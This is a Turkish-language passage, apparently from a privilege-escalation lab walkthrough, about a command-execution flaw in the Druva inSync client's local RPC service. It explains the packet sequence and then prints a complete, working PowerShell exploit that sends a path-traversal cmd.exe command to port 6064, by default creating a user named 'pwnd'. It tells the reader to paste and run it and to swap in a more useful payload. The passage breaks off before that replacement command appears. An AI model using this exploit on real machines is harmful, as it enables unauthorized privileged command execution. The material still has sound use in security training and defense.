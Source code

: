 ![privesc9.png](img/privesc9.png)

İlk paket, sabit bir string içeren basit bir merhaba paketidir. İkinci paket, 5 numaralı prosedürü yürütmek istediğimizi gösterir, çünkü bu, bizim için herhangi bir komutu yürütecek olan savunmasız prosedürdür. Son iki paket sırasıyla komutun uzunluğunu ve yürütülecek komut dizesini göndermek için kullanılır.

Bu açığı istismar edecek exploit kodu aşağıdadır ve Matteo Malvica tarafından yayımlanmıştır:

    $ErrorActionPreference = "Stop"

    $cmd = "net user pwnd /add"

    $s = New-Object System.Net.Sockets.Socket(
        [System.Net.Sockets.AddressFamily]::InterNetwork,
        [System.Net.Sockets.SocketType]::Stream,
        [System.Net.Sockets.ProtocolType]::Tcp
    )
    $s.Connect("127.0.0.1", 6064)

    $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
    $rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
    $command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
    $length = [System.BitConverter]::GetBytes($command.Length);

    $s.Send($header)
    $s.Send($rpcType)
    $s.Send($length)
    $s.Send($command)

Bir Powershell konsolunu açabilir ve exploiti doğrudan çalıştırmak için yapıştırabilirsiniz. $cmd değişkeninde belirtilen, exploitin varsayılan payloadının sistemde pwnd adında bir kullanıcı oluşturacağını ancak ona yönetici yetkisi atamayacağını unutmayın; bu nedenle muhtemelen payloadı daha kullanışlı bir şeyle değiştirmek isteyeceğiz. Bu bölüm için payloadı aşağıdaki komutu çalıştıracak şekilde değiştireceğiz:
